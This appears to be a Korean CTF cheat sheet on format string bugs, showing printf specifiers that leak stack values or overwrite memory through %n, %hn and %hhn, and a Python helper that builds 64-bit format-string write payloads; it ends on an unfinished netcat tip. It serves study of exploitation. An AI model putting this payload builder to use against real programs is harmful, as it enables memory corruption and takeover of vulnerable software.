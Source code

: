 <br />

> FSB

스택 내 주소 한번에 출력

스택의 1337번째의 값을 hex 값으로 출력 (info leak)

```c
printf("%LENGTH$08x"); -> printf("%1337$08x");
```

주소 값 한 번에 변조 

스택의 12번째의 값에 저장되어 있는 주소에 앞에 출력된 바이트 수만큼 덮음

```c
printf("%LENGTH$n"); -> printf("%12$n");
```

%n -> 앞에 쓰인 바이트만큼 4byte 채움

%hn -> 앞에 쓰인 바이트만큼 2byte 채움

%hhn -> 앞에 쓰인 바이트만큼 1byte 채움

64bit FSB - by JSEC

```python
def fmt(prev , target):
	if prev < target:
		result = target - prev
		return "%" + str(result)  + "c"
	elif prev == target:
		return ""
	else:
		result = 0x10000 + target - prev
		return "%" + str(result) + "c"

def fmt64(offset , target_addr , target_value , prev = 0):
	payload = ""
	for i in range(3):
		payload += p64(target_addr + i * 2)
	payload2 = ""
	for i in range(3):
		target = (target_value >> (i * 16)) & 0xffff 
		payload2 += fmt(prev , target) + "%" + str(offset + 8 + i) + "$hn"
		prev = target
	payload = payload2.ljust(0x40 , "a") + payload
	return payload
```

64bit에서는 %lx로 8byte leak 가능

<br />

> nc tip

nc로 바이너리가 주어질 때 있는데 아래처럼 바이너리 같은지 확인 가능하다.
